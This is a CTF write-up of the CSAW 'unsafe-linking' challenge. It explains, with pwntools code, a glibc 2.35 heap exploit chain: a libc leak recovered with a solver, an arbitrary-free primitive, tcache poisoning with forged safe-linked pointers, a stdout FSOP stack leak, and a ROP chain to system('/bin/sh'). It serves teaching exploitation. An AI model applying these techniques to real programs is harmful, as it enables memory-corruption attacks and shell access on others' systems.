

# unsafe-linking

I played CSAW quals with PPP, and one of the more interesting challenges I worked on was "unsafe-linking". I worked on this with [babaisflag](https://ctftime.org/user/99027). I'm going to make this as detailed as possible, but if you want a summary of our exploit just look at the section headers. I'll also try to highlight the paths we tried that *didn't* end up working out for us.

Challenge description:
> You have found a mysterious notebook program running on a server. Unfortunately, the notebook program is faulty and has an issue with improperly handling memory allocation/deallocation. The notebook uses GLIBC-2.35 which implemented safelinking. Find a way to capture the flag by recovering leaked safelinking data!

Sections

1. [Program Overview](#1-program-overview)
2. [Bugs](#2-bugs--capabilities)
3. [Libc Leak](#3-libc-leak)
4. [Construct a reusable arbitrary-free primitive](#4-construct-a-reusable-arbitrary-free-primitive)
5. [Construct overlapping fake chunks](#5-construct-overlapping-fake-chunks)
6. [Poison tcache (using forged safe-linked pointers) to gain arbitrary-write](#6-poison-tcache-using-forged-safe-linked-pointers-to-gain-arbitrary-write)
7. [Stack leak using stdout FILE struct](#7-stack-leak-using-stdout-file-struct-fsop)
8. [Use arbitrary-write again, ROP to call system("/bin/sh")](#8-use-arbitrary-write-again-rop-to-call-systembinsh)

## 1. Program overview

The program is a "heap note" style challenge, that presents you with three options:

```
======= CSAW'22 =======
[1]     Create a note
[2]     Delete a note
[3]     Read a note
[4]     Exit
>
```

To understand what's going on here, we have to do just a little reversing.

You can easily find the switch statement on the 3 options in `main` (annotated by me):


**Create**


You can create two kinds of notes, but in either case we allocate 0x10 bytes. This 0x10 thing I will refer to throughout as a 'note'. 

1. Not secret notes
    - Prompts you for a size
    - Allocates the size you provide (note: no restriction on the max size)
    - Calls a `gets`-like function to read up to that number of bytes.

    The structure of a not-secret note is:

    | offset  | value |
    | ------------- | ------------- |
    | 0x0  | pointer to input buffer  |
    | 0x8  | 0x0  |

2. Secret notes
    
    - Allocates 8 bytes for your input
    - Reads up to 8 bytes in using the `gets`-like function

    The structure of a secret note is:

    | offset  | value |
    | ------------- | ------------- |
    | 0x0  | pointer to input buffer  |
    | 0x8  | 0xcafebabe  |


In either case, a pointer to the note is stored to a global array (I annotated this `notes`, but it's at 0x4080). Regardless of whether the user-chosen index is occupied by a valid note or not, the create operation will overwrite the chosen pointer in the global. 

-----

A brief look at the `gets`-like function. It will read *up to* the number of characters specified by the 2nd argument, stopping at a newline (0x0a) if one is reached earlier. It does not touch the remainder of the buffer if it stops early.


-----

**Delete**

The "delete a note" option 


As with "create", there is some logic here to check the index that you input. It also checks `notes[idx] == 0`, so if you haven't yet stored anything to that index, it won't try to free anything.

In the case that the checks are passed, it will free both the note itself and the input buffer that the note stored.

The operations are performed in this order:
```c
// Free the pointer stored in the first 8 bytes of the note
// (notice above that the first 8 bytes of the note are always
// the input buffer)
free(*notes[idx])

// Free the note itself
free(notes[idx])
```

Notably, they do not null out the pointer to the note in the global array of notes. They should have done:

```c
notes[idx] = 0;
```

but they didn't. More on that in section 2.

**Read**



This is perhaps most interesting, and confusing operation of the three. After the usual checks, the function checks the 2nd member of the note:

```c
if (*(notes[idx] + 8) == 0) {
    puts(str: "It's not a secret, you should kn…")
}
```

This means that we can only try to read from notes that we created as 'secret'. The next chunk of logic is particularly annoying:

```c
} else if (data_4010 != 1) {
  rax_18 = puts(str: "NO! I am an honest notebook!!!")
} else {
  puts(str: "I'll not do it again. This is th…")
  puts(str: "Applying safe-linking+ ...")
  
  // ... crazy stuff omitted here...
  
  data_4010 = data_4010 - 1
}
```

So we get *one chance* to "read" from a note.

And the read is one of the most obscure leaks I've encountered:

```c
puts(str: "Applying safe-linking+ ...")

// Get the first 8 bytes of the input buffer (which we control, if we want)
int64_t controlled_input = **notes[zx.q(rax_1)]

// sub_174c() returns a random 8-byte integer from /dev/urandom
uint64_t rax_13 = sub_174c() u>> 0x1c

// It xors our input with some bits from /dev/urandom...
int64_t rdx_7 = rax_13 ^ controlled_input

// ... and then it prints that value, and also
// the random bits *minus* (controlled_input >> 0xc)... 
// What???????
printf(format: "Secret %p(off= %lx)\n", rdx_7, rax_13 - (controlled_input u>> 0xc), rdx_7)
```

Despite being the only accessible leak, it's not obvious that we can actually recover anything from this. At first glance, there are a number of issues:

- We need an interesting pointer to be in those first 8 bytes of the input buffer. How will we get one there?
- The first value we are given, the XOR, seems to have its lower 38 bits corrupted by the random value
- The second value we are given, the result of the subtraction, also seems like it would make most of the original value irrecoverable.

I will have to answer these questions in section 3.

## 2. Bugs & Capabilities

The most important bug is the fact that the pointers to notes in the global array are never nulled out on *delete*, allowing UAF / double-free in various circumstances.

What does this *potentially* let us do?

### Can we free notes multiple times by just calling delete multiple time with the same index?

It turns out to be not quite so simple. Every time you call delete, remember it actually calls `free` on two different things:

```c
// Free the pointer stored in the first 8 bytes of the note
// (notice above that the first 8 bytes of the note are always
// the input buffer)
free(*notes[idx])

// Free the note itself
free(notes[idx])
```

While a valid (ie. not freed) note always has a pointer to an input buffer as the first member, free'd heap chunks are [filled with metadata](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk) by the allocator... and this will cause the first `free` to fail (more details later).

### Can we view a single heap chunk as both a note and an input buffer at the same time?

Since pointers are never nulled out in the notes global array, we can always try to reference those chunks as notes, even if those chunks later get returned from malloc later for use as an input buffer.

This will be critical to obtaining our arbitrary-free primitive in section 4.

### An unintialized memory bug

The other bug worth mentioning is that the input buffers are not fully initialized if the user enters less than the number of characters that they said they would. This means that there will potentially be leftover heap metadata in the input buffer. We will use this for our leak in section 3.

## 3. Libc Leak

Due to ASLR, we don't know the base address of our program, libc, the stack, or the heap. I should note that, at first it was not clear that a libc leak was the right path. We first used a very similar method to the one described below to obtain a *heap* leak, but we found that while this allowed us to construct complex fake structures on the heap, it was very difficult to construct a write-in-libc primitive without a libc leak.

### Step 1: Get a value to leak into the first 8 bytes of a input buffer

We will exploit the fact that we can leave the input buffer uninitialized by just sending a newline when asked for content. Since the read operation gives us a value derived from the first 8 bytes of an input buffer, we can print the first 8 (uninitialized!) bytes in the input buffer after it is allocated.

In the glibc heap, chunks that come from tcache are part of a singly-linked list and will have a pointer to another heap chunk in the first 8 bytes. On glibc 2.32+, this pointer is ["safe-linked"](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/) (which seems to be where the title for the challenge comes from). 

Chunks coming from the 'unsorted bin' of the glibc heap can instead contain a pointer into libc itself. To get a chunk allocated into the unsorted bin, we do the following, and then that chunk reallocated as a input buffer:

<!-- todo: i wonder if this can be simplified? -->

```py
create_not_secret(0, b"YOLOYOLO"*2)
create_not_secret(1, b"YOLOYOLO"*2)
create_not_secret(2, b"YOLOYOLO"*2)
create_not_secret(3, b"YOLOYOLO"*2+b"\n", l=0x1000)
create_not_secret(4, b"YOLOYOLO"*2)

delete(0)
delete(1)
delete(2)
delete(3) # Input buffer free'd into unsorted bin

# The 0x20 tcache is now full

delete(4) # This input buffer and note are adjacent to 3's input buffer
create_secret(0, b"\n")
create_secret(1, b"\n")
create_secret(2, b"\n")
create_not_secret(3, b"\n", l=0x1080) # 3 and 4 will be consolidated
delete(3) # free the consolidated chunk, returns to wilderness

create_secret(4, b"\n") # 

# the first 8 bytes of the input buffer for 4 now contain a libc pointer
```

My guess is the above can be simplified, but we didn't put any thought into it during the CTF since it gave us the leak we needed to move forward.


### Step 2: Using the mysterious leaked values and Z3, recover the original pointer

Early on, I wanted to explore the properties of the odd one-time leak that this program provided. Given that I knew exactly how the leaked values were computed but didn't know how to use them, I turned to an SMT solver (Z3) to try to solve for the original leaked value. I wrote a proof-of-concept and it turns out it was able to recover the original value! My original POC below tries to recover the original pointer assuming we try to leak a *protected* safe-linked pointer.

babaisflag found out this generalizes to non-protected pointers as well, which allow us to leak the libc pointer that came from the unsorted bin.

```py
import claripy
from pwn import *
import os

s = claripy.Solver()


def compute_leaks(rand_val, p):
    xor_leak = (rand_val >> 0x1c) ^ p
    sub_leak = (rand_val >> 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

def compute_leaks_symbolic(rand_val, p):
    xor_leak = claripy.LShR(rand_val, 0x1c) ^ p
    sub_leak = claripy.LShR(rand_val, 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

protected = 0x557f04d0e3ed
rand_example = u64(os.urandom(8))

xor_leak, sub_leak = compute_leaks(rand_example, protected)

# everything below here can be done without rand_example

rand = claripy.BVS('rand', 64)
orig_ptr = claripy.BVS('orig', 64)

# In my initial PoC I chose to assume that we'd be trying to leak
# a safe-linked pointer to a nearby chunk, and asked Z3 to recover
# the original unprotected pointer
protected = claripy.LShR(orig_ptr, 12) ^ orig_ptr

xor_leak_symbolic, sub_leak_symbolic = compute_leaks_symbolic(rand, protected)

s.add(xor_leak_symbolic == claripy.BVV(xor_leak, 64))
s.add(sub_leak_symbolic == claripy.BVV(sub_leak, 64))

orig_ptr = list(s.eval(orig_ptr, 8))

print([hex(x) for x in orig_ptr])
```

## 4. Construct a reusable arbitrary-free primitive

```py
def arb_free(addr):
    create_not_secret(0, b"\n", l=0x60)
    create_not_secret(1, b"\n", l=0x60)
    delete(0)
    delete(1)
    create_not_secret(3, p64(addr) + b"\n", l=0x10)
    delete(0)
```

First, we create two notes with input buffers. 0x60 was an arbitrary choice. Then we free both of these (0 then 1). The notes will be returned to the 0x20 tcache and the input buffers returned to the 0x70 tcache. Next, a note will be created -- its input buffer will be the same chunk as note 0 (the note itself). We fill the first 8 bytes of the input buffer with an arbitrary pointer. Next, we delete note 0... remember that delete does two frees:

```c
// Free the pointer stored in the first 8 bytes of the note
// (We just filled note 0 with our input data, so this is freeing
// our arbitrary pointer)
free(*notes[idx])

// Free the note itself (note 0). This is the same as the input buffer for note 3.
free(notes[idx])
```

Note that at this point, delete(3) would probably crash, since we already free'd its input buffer.


## 5. Construct overlapping fake chunks

Now, we have a libc leak and an arbitrary free primitive. We need to work our way up to a arbitrary write, or at least a write-what-in-libc primitive. 

The plan:

1. Construct some fake chunks that will fit in tcache (I chose the 0x40 bin) and a single overlapping chunk (I chose the 0x220 bin)
2. Free two of 0x40 chunks using the arbitrary-free primitive
3. Use the overlapping chunk to overwrite the fwd pointer on the first chunk in the tcache (this is a safely-linked pointer!) so that the allocation after it returns an arbitrary (libc!) raddress.

The problem: To be able to free these chunks, we need to know where they are. Unfortunately, we don't have a heap leak. Luckily, we can allocate a very large chunk and it will get *mmapped* at a constant offset from libc!

To pass all the glibc checks when freeing an arbitrary address, we need to setup the size (0x40) for our fake chunks, and set the PREV_INUSE bit on the next chunk's size, making the size field for each 0x41.

```py
# One big 0x220 chunk, and then a few 0x40 chunks that overlap with it. /bin/sh is for later :)
mmap_payload = b"yolo" * 2 + p64(0x221) + b"E" * 0x18 + (p64(0x41) + b"A" * 0x38) * 8 + b"/bin/sh\0"

# Put the payload in a mmapped region!
create_not_secret(4, mmap_payload+b"\n", l=0x20000)

# Offset determined experimentally
mmap_payload_base = leak_revealed - 0x23dcd0
```


## 6. Poison tcache (using forged safe-linked pointers) to gain arbitrary-write

```py
arb_free(mmap_payload_base+16)
arb_free(mmap_payload_base+16 + 0x20 + 0x40) # chunk 2
arb_free(mmap_payload_base+16 + 0x20) # chunk 1

def protect(cur_chunk_addr, link_val):
    return (cur_chunk_addr >> 12) ^ link_val

write_where = 0x...
write_what = b'...'

# Use the 0x220 chunk to overwrite the metadata of (currently free'd) chunk 1
create_not_secret(10, b"E" * 0x18 + p64(0x41) + p64(protect(mmap_payload_base, write_where)) + b"\n", l=0x210) # protected

# first 0x40 chunk is chunk 1
create_not_secret(0, b"\n", l=0x38)

# the second 0x40 chunk returned is our write_where address!
create_not_secret(1, write_what, l=0x38)
```

## 7. Stack leak using stdout file struct (FSOP)

I used the [information leak technique from faraz.faith's blog](https://faraz.faith/2020-10-13-FSOP-lazynote/#information-leak). It basically consists of overwriting some pointers in the [`_IO_FILE` structure](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49) so that it will try to 'catch up' and print out `(_IO_write_ptr - _IO_write_base)` bytes from `_IO_write_base`. 

I tried just moving `_IO_write_ptr` a bit higher, but there didn't seem to be any stack pointers nearby. So I ended up finding a stack pointer (in the `environ` global) and just pointing _IO_write_ptr and friends relative to that.

```py
# determined experimentally
stack_leak_addr = (leak_revealed + 0x7520) & ~0xff

# fields are listed at https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L49
# we had to include the flags field (unchanged 0xfbad2887) because malloc only returns aligned pointers
leak = create_not_secret(1, p64(0xfbad2887)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr)+p64(stack_leak_addr+0x2000)+p64(stack_leak_addr), l=0x38)
leak = leak.split(b"Content:\n")[1][:8]
stack_leak = u64(leak)
```

## 8. Use arbitrary-write again, ROP to call system("/bin/sh")

Now that we have a stack leak, we can repeat the write-what-where primitive to write a ROP chain on the stack. I used the return address for the create function at 00001717 because it has no stack canaries.

```py
arb_free(mmap_payload_base+16 + 0x20 + 0xc0) # chunk 4
arb_free(mmap_payload_base+16 + 0x20 + 0x80) # chunk 3

stack_target = stack_leak - 0x148
# Use the 0x220 chunk to overwrite the fwd ptr on chunk 3
create_not_secret(10, b"E" * 0x18 + b"Q" * 0x80 + p64(0x41) + p64(protect(mmap_payload_base, stack_target)) + b"\n", l=0x210)
create_not_secret(0, b"\n", l=0x38) # alloc chunk 3, now the next chunk to be allocated will be on the stack

e = ELF('libc.so.6')
e.address = leak_revealed-0x219ce0
r = ROP(e)
r.call(r.find_gadget(["ret"])) # stack alignment
r.system(mmap_payload_base+0x228)
print(r.dump())
create_not_secret(0, p64(0) + r.chain() + b"\n", l=0x38, final=True)
```

Now we get a shell!

other random notes
----

- I used got libc and ld from the Docker container, and then used [pwninit](https://github.com/io12/pwninit) to get a patched binary that uses this ld/libc.
- The nicely searchable bootlin site also has glibc https://elixir.bootlin.com/glibc/glibc-2.35/source/, I used this a lot to look up malloc/free aborts I was getting, and also all the file structure stuff.

